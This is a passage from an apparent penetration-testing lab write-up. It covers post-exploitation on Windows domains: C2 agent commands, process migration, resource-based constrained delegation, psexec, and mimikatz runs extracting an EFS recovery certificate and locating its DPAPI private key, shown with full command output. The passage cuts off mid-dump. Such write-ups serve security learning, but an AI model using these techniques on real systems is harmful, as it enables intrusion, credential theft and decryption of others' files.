

I have on the system now I need to import into registry.

```
26/06/2024 17:36:29 [yovecio] Demon » powershell "reg import .\InstallTakeOwnership.reg"
[*] [7DBAE51F] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [238 bytes]
[+] Received Output [40 bytes]:
The operation completed successfully.
```

&nbsp;

# Had to ask for help

In this case I had to ask for help and the reason it never worked is in the last flag we found...



If I check on windows seems like a encryption method?



And on hacktricks the easiest is to migrate to the user that encrypted the disk:



So what I did I migrated to a svchost.exe process that was running as Robert.Lanza:



Now we can see that robert lanza can decrypt it:

```
meterpreter > shell 
Process 1640 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.3930]
(c) Microsoft Corporation. All rights reserved.

C:\users\Robert.Lanza\Desktop\VPN>cipher /c "C:\users\Robert.Lanza\Desktop\VPN\otp.png"       
cipher /c "C:\users\Robert.Lanza\Desktop\VPN\otp.png"

 Listing C:\users\Robert.Lanza\Desktop\VPN\
 New files added to this directory will not be encrypted.

E otp.png
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    inception\Robert.Lanza [Robert.Lanza(Robert.Lanza@inception.local)]
    Certificate thumbprint: 54A1 25B3 FAEE AFE7 C754 6165 C4E7 7DD8 7D3B F0E1 

  Recovery Certificates:
    Administrator@cyber.local
    Certificate thumbprint: 43EC C04D 4ED3 A29E AEF3 86C1 4C6B 650D CD4E 1BD8 

  Key information cannot be retrieved.

The specified file could not be decrypted.
```

But I wasn't able to decrypt it anyway so I guess I need to follow this guide since I was NTSystem and I have migrated to Robert:

https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files

We know that the key digest used is the: **54A1 25B3 FAEE AFE7 C754 6165 C4E7 7DD8 7D3B F0E1**

Now the problem is that certificate is totally gone and I can't find it which makes in impossible ny Robert session.

But I see that a recovery can be found from administrator@cyber.local?

So going back on CYDC I can see some backup certificates that might be used?



&nbsp;

# The next morning...

Now I was thinking and since we know that the certificate must be related to Administrator@cyber.local it narrows the search to all the machines that are on the 10.9.10.0/24 network.

None the less I was thinking yesterday that I might check on the CA if I can find the certificate?



I need to look for that specific user so I was actually looking for a powershell command and apparently there is!

```
PS C:\Temp> Get-ChildItem -path 'Cert:\*43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8' -Recurse | fl


Subject      :
Issuer       : CN=Cyber-CA, DC=cyber, DC=local
Thumbprint   : 43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8
FriendlyName : EFS-DRA
NotBefore    : 7/30/2020 11:37:16 PM
NotAfter     : 7/30/2022 11:47:16 PM
Extensions   : {System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid,
               System.Security.Cryptography.Oid...}


PS C:\Temp>
```

I see that the cert is expired but I guess it doesn't matter?



I will export it to the machine, but seems like I can't export the private key as well!

```
PS C:\Temp> $mypwd = ConvertTo-SecureString -String 'Coglione1!' -Force -AsPlainText
PS C:\Temp> Get-ChildItem -Path Cert:\CurrentUser\My\43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8 | Export-PfxCertificate -F
ilePath C:\mypfx.pfx -Password $mypwd
Export-PfxCertificate : Cannot export non-exportable private key.
At line:1 char:85
+ ... DCD4E1BD8 | Export-PfxCertificate -FilePath C:\mypfx.pfx -Password $m ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Export-PfxCertificate], Win32Exception
    + FullyQualifiedErrorId : System.ComponentModel.Win32Exception,Microsoft.CertificateServices.Commands.ExportPfxCer
   tificate

PS C:\Temp>
```

Hopefully this in enough anyway!



Now we need to perform the RDBC again so we can gain access again on the machine! I will start by joining a dummy pc object to AD and add the MSonbehalfof attribute:



And now we can ask for a TGS for impersionation!



And if we point to it now we should see a valid kerberos ticket...



And now psxec should allow us to get a shell as NTSystem



Now as backup i will get a meterpreter shell as well so i can send easier shell commands and I will upload the exported certififcates as well:



&nbsp;

EDIT: Here I was totally of, I really need to export the PRIVKEY as well so I have to do so on the CYDC! This mean we need to go back and export it via mimikatz!

First we need to export the public key of the certificate itself:

```
mimikatz # crypto::system /file:"C:\Users\Administrator\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\43E
CC04D4ED3A29EAEF386C14C6B650DCD4E1BD8" /export

* File: 'C:\Users\Administrator\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\43ECC04D4ED3A29EAEF386C14C6
B650DCD4E1BD8'
[0061/1] NO_EXPIRE_NOTIFICATION_PROP_ID
[0018/1] ISSUER_PUBLIC_KEY_MD5_HASH_PROP_ID
  e61ffeba13354b48d20de05709ff2c73
[0004/1] MD5_HASH_PROP_ID
  7345cff82a8a06aa13824a4a3aa7f3e5
[0003/1] SHA1_HASH_PROP_ID
  43ecc04d4ed3a29eaef386c14c6b650dcd4e1bd8
[000b/1] FRIENDLY_NAME_PROP_ID
  EFS-DRA
[0002/1] KEY_PROV_INFO_PROP_ID
  Provider info:
        Key Container  : te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab
        Provider       : Microsoft Strong Cryptographic Provider
        Provider type  : RSA_FULL (1)
        Type           : AT_KEYEXCHANGE (0x00000001)
        Flags          : 00000000
        Param (todo)   : 00000000 / 00000000

[0014/1] KEY_IDENTIFIER_PROP_ID
  6b14f1adec7afa4b02a77a92e5ea6481c19bd887
[000f/1] SIGNATURE_HASH_PROP_ID
  7bb5bd7536ebb2d4612a0c0cd1c668cfbb1cb1f15f5f43300cb487a9251f6018
[005c/1] SUBJECT_PUB_KEY_BIT_LENGTH_PROP_ID
  00080000
[0019/1] SUBJECT_PUBLIC_KEY_MD5_HASH_PROP_ID
  4401e804a48c251f141ad90e89167808
[0020/1] cert_file_element
  Data: 308204953082043ba003020102021326000009f9bb169770a15766a60000000009f9300a06082a8648ce3d040302304131153013060a0992
268993f22c64011916056c6f63616c31153013060a0992268993f22c640119160563796265723111300f0603550403130843796265722d4341301e17
0d3230303733313033333731365a170d3232303733313033343731365a300030820122300d06092a864886f70d01010105000382010f003082010a02
82010100bc14cfd23f91eede26b82172a302cfd4c6f3e3978c18f1107418383d57844640982cfaf973133d534c45f2b86c93a676262c57185143abca
d8fe86cc05fd2e3a199334969fef0b3cbc94e9bd03713eaac0f8ad32ae1a7d9a6a752c69aba7a242eb011256d6dc66ce53fdbac79fdd00684e2f512c
539e18dad27b4070866ca3536ec00146c1782ac380531985bdcbb9dbf8f0145be22488277f548920496ab7bbee8fe0122cd3ec49e4ee4602faf70c3d
895bca5dc20b10c14bf37dab2fcad87c53620d6c787d057e4cee18426ae80d7b6a1202de68bb1bb4dcabe3321ea452d9ba0a71319c85563f721d5391
1aec7fe46ba347a3e79123d29fd57dec3df59c0f0203010001a382028630820282303c06092b0601040182371507042f302d06252b06010401823715
0887bb95349f913386898d3884d69d6681d5c42369abdce72babdcee2802016402010330160603551d25040f300d060b2b0601040182370a03040130
0e0603551d0f0101ff040403020520301e06092b060104018237150a0411300f300d060b2b0601040182370a030401301d0603551d0e041604146b14
f1adec7afa4b02a77a92e5ea6481c19bd887301f0603551d23041830168014310aa304f087b31eb5a2a5eaa9c2e9616390ac223081c30603551d1f04
81bb3081b83081b5a081b2a081af8681ac6c6461703a2f2f2f434e3d43796265722d43412c434e3d637964632c434e3d4344502c434e3d5075626c69
632532304b657925323053657276696365732c434e3d53657276696365732c434e3d436f6e66696775726174696f6e2c44433d63796265722c44433d
6c6f63616c3f63657274696669636174655265766f636174696f6e4c6973743f626173653f6f626a656374436c6173733d63524c4469737472696275
74696f6e506f696e743081ba06082b060105050701010481ad3081aa3081a706082b0601050507300286819a6c6461703a2f2f2f434e3d4379626572
2d43412c434e3d4149412c434e3d5075626c69632532304b657925323053657276696365732c434e3d53657276696365732c434e3d436f6e66696775
726174696f6e2c44433d63796265722c44433d6c6f63616c3f634143657274696669636174653f626173653f6f626a656374436c6173733d63657274
696669636174696f6e417574686f7269747930370603551d110101ff042d302ba029060a2b060104018237140203a01b0c1941646d696e6973747261
746f724063796265722e6c6f63616c300a06082a8648ce3d04030203480030450220794d61cb04f29033d020fa514814dcf0daf92e4a87568305c96d
175e5cb59810022100bfebd9a66979807d64c44d0a476a568eceb5388b8a27c013a601e5f2c98a38a6
  Saved to file: 43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8.der
```

But we got to know that the privatekey is saved in the DPAPI containiner: **te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab**

This should allow us to export it from DPAPI secrets. In this case the container names are sometimes random so I need to to go manually and check to find it. This is what i mean:

```
PS C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2011815209-557191040-1566801441-500> ls


    Directory: C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2011815209-557191040-1566801441-500


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a--s-        1/13/2024   2:01 AM           2093 58eb241fdd2b4e1090296fade9a42768_cd42b893-122c-49c3-85da-c5fff1b0a3ad
-a--s-       10/23/2021   6:51 AM           2093 6426b8537422b15803a290a9f5a9509e_cd42b893-122c-49c3-85da-c5fff1b0a3ad
-a--s-         6/2/2020  11:10 PM           2093 88fdd6a8e33094019ece59ea1c41bc08_cd42b893-122c-49c3-85da-c5fff1b0a3ad
-a--s-       12/31/2019   1:23 AM           2081 93022dca71c34e50b848af0196941664_cd42b893-122c-49c3-85da-c5fff1b0a3ad
-a--s-        2/13/2023  12:57 PM           2093 e603773d96d0363df29c36ecc5039650_cd42b893-122c-49c3-85da-c5fff1b0a3ad
-a--s-        1/20/2021   1:26 AM           2091 ed6c2461ca931510fc7d336208cb40b5_cd42b893-122c-49c3-85da-c5fff1b0a3ad


PS C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2011815209-557191040-1566801441-500>
```

Now I need to iterate thru these and the one where `pUniqueName` matches with the container name then we can see which is the private key.

And the first is not the right one:

```
PS C:\Temp> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2011815209-557191040-1566801441-500\58eb241fdd2b4e1090296fade9a42768_cd42b893-122c-49c3-85da-c5fff1b0a

**KEY (capi)**
  dwVersion          : 00000002 - 2
  dwUniqueNameLen    : 00000031 - 49
  dwSiPublicKeyLen   : 00000000 - 0
  dwSiPrivateKeyLen  : 00000000 - 0
  dwExPublicKeyLen   : 0000011c - 284
  dwExPrivateKeyLen  : 000005fc - 1532
  dwHashLen          : 00000014 - 20
  dwSiExportFlagLen  : 00000000 - 0
  dwExExportFlagLen  : 000000a8 - 168
  pUniqueName        : te-UserCert-7db26717-8a3b-4240-b0e4-e0420319e2e7
  pHash              : 0000000000000000000000000000000000000000
  pSiPublicKey       :
  pSiPrivateKey      :
  pSiExportFlag      :
  pExPublicKey       : 525341310801000000080000ff000000010001004dbeb14a8d7b6bc4018e6905c49094c793b777c7b17bfbb228b538fbd98dfcc75c22766a30f0bbfb3e595fbb77eb553d52fb6b3a9671b77e066c2964b06dce6990ed1e60
e39fef090b34fee1f4f055abd6e4bc1876ea2a1aa009b9c6ca843e0ed2dc1a52b391c504973a193ffeeac9fc917a557f66eddae984af1f8ba2d7582c85fba74a2afe813360425dd16b85566ddb1b8b9c3548aee292578da9af20f4ea48a7d25beda2a0e
837dfb70b7a19ba92520bde0e926beecc0c94570d862e63d03b7743f1e318908698511770e3d97df22685318b33c665bcdad75205a03da00ab30f15ac10d917e64976050f29be715bf070d2b66ebfbf8e52e2a3e10000000000000000
  pExPrivateKey      :
  **BLOB**
    dwVersion          : 00000001 - 1
    guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
    dwMasterKeyVersion : 00000001 - 1
    guidMasterKey      : {f045138c-67a2-479f-8a33-717dfa0bfa0b}
    dwFlags            : 00000000 - 0 ()
    dwDescriptionLen   : 0000002c - 44
    szDescription      : CryptoAPI Private Key
    algCrypt           : 00006603 - 26115 (CALG_3DES)
    dwAlgCryptLen      : 000000c0 - 192
    dwSaltLen          : 00000010 - 16
    pbSalt             : 4626f8c3f0e1abfe5c13ea5fa4a8a618
```

And seems like the last key actually was the right match:

```
mimikatz # dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2011815209-557191040-1566801441-500\ed6c2461ca931510fc7d336208cb40b5_cd42b893-122c-49c3-85da-c5fff1b0a3ad"

**KEY (capi)**
  dwVersion          : 00000002 - 2
  dwUniqueNameLen    : 0000002f - 47
  dwSiPublicKeyLen   : 00000000 - 0
  dwSiPrivateKeyLen  : 00000000 - 0
  dwExPublicKeyLen   : 0000011c - 284
  dwExPrivateKeyLen  : 000005fc - 1532
  dwHashLen          : 00000014 - 20
  dwSiExportFlagLen  : 00000000 - 0
  dwExExportFlagLen  : 000000a8 - 168
  pUniqueName        : te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab
  pHash              : 0000000000000000000000000000000000000000
  pSiPublicKey       :
  pSiPrivateKey      :
  pSiExportFlag      :
  pExPublicKey       : 525341310801000000080000ff000000010001000f9cf53dec7dd59fd22391e7a347a36be47fec1a91531d723f56859c31710abad952a41e32e3abdcb41bbb68de02126a7b0de86a4218ee4c7e057d786c0d62537cd8ca2fab7d
f34bc1100bc25dca5b893d0cf7fa0246eee449ecd32c12e08feebbb76a492089547f278824e25b14f0f8dbb9cbbd85195380c32a78c14601c06e53a36c8670407bd2da189e532c512f4e6800dd9fc7bafd53ce66dcd6561201eb42a2a7ab692c756a9a7d1aa
e32adf8c0aa3e7103bde994bc3c0bef9f963493193a2efd05cc86fed8caab435118572c2676a6936cb8f2454c533d1373f9fa2c98404684573d38187410f1188c97e3f3c6d4cf02a37221b826deee913fd2cf14bc0000000000000000
  pExPrivateKey      :
  **BLOB**
    dwVersion          : 00000001 - 1
    guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
    dwMasterKeyVersion : 00000001 - 1
    guidMasterKey      : {f216eabc-73af-45dc-936b-babe7ca8ed05}
    dwFlags            : 00000000 - 0 ()
    dwDescriptionLen   : 0000002c - 44
    szDescription      : CryptoAPI Private Key
    algCrypt           : 00006603 - 26115 (CALG_3DES)
    dwAlgCryptLen      : 000000c0 - 192
    dwSaltLen          : 00000010 - 16
    pbSalt             : be3a6a63265998d043869447bbc35543
    dwHmacKeyLen       : 00000000 - 0
    pbHmackKey         :
    algHash            : 00008004 - 32772 (CALG_SHA1)
    dwAlgHashLen       : 000000a0 - 160
    dwHmac2KeyLen      : 00000010 - 16
    pbHmack2Key        : 015c7cb8397bbded162691640fd48265
    dwDataLen          : 00000548 - 1352
    pbData             : 5cd1399f53ebcc77ae643330497e48d4efbd2d354830c3cd67a97e52b17b835afc5ef56d845233941b544b5e1c3af5edec65e474947ced1cf796256b45bc18b2a8178fc7c3c5842de952688671cc280b94c18c860a44609686
5b30f44d68d0259f0ef4a31e17539261f3e5fab297c3a73ed8df90f81bfdded8d6c4a6fea7a24c7170848269869599ee64e839cbda6f3b69a7edce02d05662836b6761e5b205923da031629758e4524b7736a64cd0ab394d206d328299bb72fd8e86e57072a
1938da4dd08a163d91db3719a49dfd9956b9c9e84ddfcba734690e39e863076ece4c3fc3daf11207967e92473f7888b446984ede343119eee7e527bdbe92bb7b46c46b25acbc1bb27faa328037d65d31d151691f2e48ea0a9176a4e7fccd0e1180c43983bf8
a05c685293d34ca7b7a185908e4bb7c688cb5eaf82e14314ccc0474a7f23c1d3e4e4ca89250c8118f772c85b8f72559bda1ba6c36e3b263fbc0181d5ecf5f7246d11f56cff1504713ae725d96acf6ceed16d9b179582bed97b5e7e8c33682da4d727f6c62d7
992e107a906614184fb0549729b48eee777b59d0c7c7d444d2a68892afe12e4ecb06a178338634a2f9eb7da603ae67a2ffea45829187755641f5e7affae08d3b6fd784ef361bf79b3cdf4df8806ed752e9be118052d50c83fce7eb6928d250ab0c70a9282a0
3f9cbc0693715e3a54fcfaef1ede9e25ce607729965e96d6fa7dc78756c01be1e8623c98f012af6e9396c1da5d1547e6d4fad99d1301000b1931c6fcb48b53e23952ae84b95d62444d1088e7ef3471e3f8195833e1db4386f394b4a20e42ba578aec4dd93a3
2d5007ff9405e4097cb5a3db40d4c1e157e03ce43d73d234c766a1b3229e6aed1565d76390607b9e00889e2b98ad940dd270f341eb4342c84776aaa73f98eed12662fd667ca1a89b3ef1b8084c024d0e785c7e323c25e5b430e0a4dbeb94a7979245f9336e9
69dc5cf17ce4264c262f3789ddaead1cd69ed8d831e14659826936f1d2a613ad4b17fb717d11986b38f49fefe0dac21118ba2a0ba79c2a25fa746228475704fed297505a15dd02e884f5368b47384d13eea3b3a2d529172ed588c1995d0f82b8269ef31b25c
852f800bddaed7bb8a4c2766c751d8294b5b60348c9434ee9f4045c8b9f64ea955e72e232e29a9ab32e236539d2afb17e85bb6a88c81e89a9f8c479c5c46e070fab9c430c6731df5de89e4c8f9f4512cc78cff37b0a6237c67aa4cde21466c852f4fc0b0009
821cd919e41a929b17301bb6510facac2a4982b9c3555b0c43e4d27f4b745f31a4366453a93a5892d675f969392048bf15182a6b4a6025e8fe3c18ba2b2158283f89a515d0be00fa7919d7fd6257ee6275e0a65bc0533a10065691caf9bc9cbe7dbcb2070e3
